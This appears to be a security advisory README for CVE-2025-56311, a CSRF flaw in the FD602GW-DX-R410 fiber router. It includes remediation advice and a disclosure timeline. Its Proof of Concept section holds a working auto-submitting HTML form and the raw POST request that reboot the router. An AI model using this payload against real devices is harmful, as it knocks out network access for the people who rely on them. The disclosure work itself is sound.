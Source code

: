 # fd602gw-dx-r410-csrf-advisory
CSRF vulnerability in FD602GW-DX-R410 router allows remote attackers to reboot the device via a crafted POST request to /boaform/admin/formReboot when an admin is authenticated.


# CVE-2025-56311: Security Advisory – CSRF Vulnerability in FD602GW-DX-R410 Router Reboot Function

Proof of Concept and Security Advisory for a Cross-Site Request Forgery (CSRF) vulnerability in the FD602GW-DX-R410 fiber router’s admin interface (Firmware V2.2.14). The advisory outlines the impact, attack vector, and recommendations for remediation.

---

## Overview

A Cross-Site Request Forgery (CSRF) vulnerability was discovered in the FD602GW-DX-R410 fiber router’s web-based admin console (Firmware V2.2.14). The `/boaform/admin/formReboot` endpoint allows POST requests to trigger a full device reboot without CSRF tokens or origin validation. If an authenticated administrator visits a malicious page, the router can be remotely rebooted without consent.

* **CVE ID:** CVE-2025-56311
* **Advisory Publication Date:** July 2025
* **Discovered by:** Hasanka Amarasinghe (Independent Security Researcher)
* **Vendor:** Shenzhen C-Data Technology Co., Ltd.
* **Product Affected:** FD602GW-DX-R410 Fiber Router
* **Firmware Version:** V2.2.14 (Build.1918.241111)
* **Hardware Version:** R410.1B
* **Bootloader Version:** V3.7-2312181457
* **Web Server:** Boa/0.93.15
* **Access Vector:** Remote (Authenticated admin must be logged in)
* **Severity:** Medium
* **CVSS v3.1 Base Score:** 5.4 (Medium)

---

## Affected Product

* **Device:** FD602GW-DX-R410 Fiber Router
* **Firmware:** V2.2.14 (Build.1918.241111)
* **Component:** Reboot Handler - `/boaform/admin/formReboot`
* **Web Server:** Boa/0.93.15

---

## Vulnerability Details

* **Type:** Cross-Site Request Forgery (CSRF)
* **Attack Vector:** Remote (admin must be logged in to their session)
* **Authentication:** None required for the attacker (admin session required on victim browser)
* **Impact:** Unauthorized reboot of the device
* **State Persistence:** Stateless session, likely tracked via IP or internal session tokens

---

## Proof of Concept (PoC)

### CSRF Payload (HTML)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Pro -->
  <body>
    <form action="http://192.168.1.1/boaform/admin/formReboot" method="POST">
      <input type="hidden" name="postSecurityFlag" value="+65535" />
      <input type="submit" value="Submit" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### HTTP Request

```http
POST /boaform/admin/formReboot HTTP/1.1
Host: 192.168.1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

postSecurityFlag=+65535
```

### Response

HTTP 200 OK; Router reboots immediately.

---

## Recommendations

* Implement CSRF tokens and strict Origin/Referer validation on all admin endpoints.
* Invalidate stale or orphaned sessions and bind sessions to secure cookies.
* Consider CAPTCHA or confirmation prompts before executing destructive actions like reboot.
* Restrict admin interface access to trusted IPs or internal networks only.

---

## Attack Vector

* Requires the router administrator to be authenticated (logged in).
* An attacker lures the victim to visit a malicious webpage which silently triggers a POST request to the reboot endpoint.
* The router accepts the forged request and reboots immediately, causing denial of service.

---

## Impact

* Denial of service due to forced reboot.
* Loss of network availability for all connected users.
* Possibility to chain with other issues (e.g., session hijack or XSS) to elevate impact.

---

## Disclosure Timeline

| Date     | Action                                      |
| -------- | ------------------------------------------- |
| Jun 2025 | Vulnerability discovered                    |
| Jun 2025 | Attempted responsible disclosure (no reply) |
| Jul 2025 | CVE ID requested from MITRE                 |
| Jul 2025 | Advisory prepared and pending publication   |
| Sep 2025 | CVE Assigned, Advisory made public          |

---

## References

* Vendor: Shenzhen C-Data Technology Co., Ltd.
* Device: FD602GW-DX-R410
* Firmware: V2.2.14
* GitHub Advisory: https://github.com/wrathfulDiety/CVE-2025-56311

---

## Disclaimer

This advisory is provided for educational and security awareness purposes. The author bears no responsibility for misuse. All testing was performed in a controlled environment.



